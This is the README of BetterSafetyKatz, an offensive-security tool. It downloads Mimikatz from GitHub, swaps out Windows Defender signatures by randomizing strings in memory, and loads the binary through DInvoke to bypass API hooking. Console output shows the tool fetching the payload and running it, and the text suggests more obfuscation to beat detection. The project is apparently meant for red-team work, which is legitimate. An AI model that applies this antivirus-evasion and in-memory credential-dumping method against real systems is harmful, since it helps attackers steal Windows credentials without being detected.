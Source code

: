 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses SharpSploit DInvoke to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using SharpSploit 1.6 DInvoke, bypassing API hooking.(https://thewover.github.io/Dynamic-Invoke/)

Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Detected?

BetterSafetyKatz has basic signature detections by now, some obfuscation will do the trick! 

	PS D:\Projects\NetLoader> .\BetterSafetyKatz.exe 
	[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Suicide burn before CreateThread!

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	
You can also specify a remote OR local path to unzip yourself (Not contacting the master GitHub repo)

	PS D:\Tools\Katz> .\BetterSafetyKatz.exe '.\mimikatz_trunk.zip'                                         
	[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Fetching .\mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Suicide burn before CreateThread!

	  .#####.   83RMVZA8 2.2.0 (x64) #19041 Jul 15 2020 16:10:52
	 .## ^ ##.  "FPN5DDHQGD5GF7M775W" - (AX8RH)
	 ## / \ ##  /*** 1HVUZ68IQYGG3I `EWE37C7HUD` ( R9ECUOAN@EWE37C7HUD.com )
	 ## \ / ##       > http://blog.EWE37C7HUD.com/83RMVZA8
	 '## v ##'       TTCPO5BUID45UFP             ( FD1XGKSOLS8XHA8DEW9X8VO9 )
	  '#####'        > K8IYUY2XSLBG3S3VXV8ZN / POCIYP0U92KNJYG463LVDYJ   ***/

	83RMVZA8
